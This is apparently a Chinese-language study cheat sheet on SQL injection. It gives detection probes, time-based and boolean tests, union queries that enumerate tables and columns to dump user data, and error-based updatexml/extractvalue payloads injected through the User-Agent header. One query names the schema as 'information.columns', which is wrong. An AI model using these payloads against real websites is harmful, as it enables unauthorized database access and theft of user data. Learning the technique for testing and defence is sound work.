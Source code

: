 # sql注入漏洞
> demo: xxx.com/goods/info?&id=1
>
> > 猜测 sql 语句: `select id,name from xx where id=1`
## union联合查询
### check leak 
- 测试数据类型强转: 若 `where id=1 and 1=2` 被强转为 `where id=1`，则数据类型为无引号的int
- 计算结果是否影响查询: `where id=1+1`
- 延时注入: `where id=1 and sleep(10)`
- 布尔注入: `where id=1 && '-1' like '-1'` 
- 测试flag数: `order by 2` 或 `union select null,null`//select尽量用null去匹配,除了mysql，其他数据库要求`union select`字段类型一一对应
> 测试mssql尽量使用`union all`，因为`union`会排除重复的值
### 利用注入点


#### step1: 获取所有表名
```sql
where id=1 
union select 1,table_name 
from information_schema.tables 
where table_schema=database() 
limit 1 offset 1
```

#### step2: 获取字段名
```sql
where id=1 
union select 1,column_name 
from information.columns 
where table_schema=database() 
&& table_name="yourTableName"
limit 1,1 #query one by one or use group_concat(column_name)
```

#### step3: 获取任意数据

__example__
```
where id=1 
union select 1,mobile
from user
limit 1,1
```
## xparh显错注入 & http header 注入

```text
/**
 * 从目标xml搜索字符串
 * @param XML_document
 * @param xpath_string
 */
extractvalue(XML_document，xpath_string);

/**
 * 替换xml匹配节点的值
 * @param XML_document
 * @param xpath_string
 * @param new_value
 */
updatexml(XML_document，XPath_string，new_value);
```

__demo sql__
```php
$sql = "insert into login_log (ua,uid) values ('$ua',$uid)"
```

__user-agent__
- `1',updatexml(1,concat(0x7e,(select 123 limit 1)),1)) -- a`
- `1',extractvalue(1,concat(0x7e,(select 123 limit 1)))) -- a`